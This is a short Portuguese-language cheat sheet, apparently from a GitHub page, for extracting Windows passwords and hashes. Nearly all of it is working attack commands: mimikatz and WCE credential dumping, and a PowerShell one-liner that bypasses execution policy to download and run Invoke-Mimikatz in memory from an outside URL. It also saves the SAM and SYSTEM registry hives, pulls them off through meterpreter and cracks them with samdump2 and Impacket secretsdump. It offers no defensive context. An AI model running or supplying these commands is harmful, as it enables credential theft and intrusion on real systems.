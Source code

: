### Obter senha do Windows 7 (mimikatz)
~~~~
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
~~~~

### Obter senha do Windows 7 (WCE)
~~~
wce.exe -w
~~~

### Uso do Mimikatz de dentro da PowerShell diretamente na memória para fazer uma extração silenciosa
~~~
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds" > C:\Users\maicon\Downloads\pass.txt
~~~


### Extração dos arquivos SAM e SYSTEM para achar as credenciais através do samdump2
~~~
meterpreter> load powershell
meterpreter> powershell_shell
~~~

Buscar nos registros as chaves sam e system

~~~
PS> reg save hklm\sam c:\sam
PS> reg save hklm\system c:\system

meterpreter>download c:\\sam
meterpreter>download c:\\system
~~~

Nova aba como administrador
~~~
# samdump2 system sam
~~~

### Mais um método de extração dessa vez com um dos módulos do Impacket chamado Secretdump
~~~
git clone impacket
pip install -r requirements.txt
python3 setup.py install
secretsdump.py -sam sam -system system LOCAL
~~~
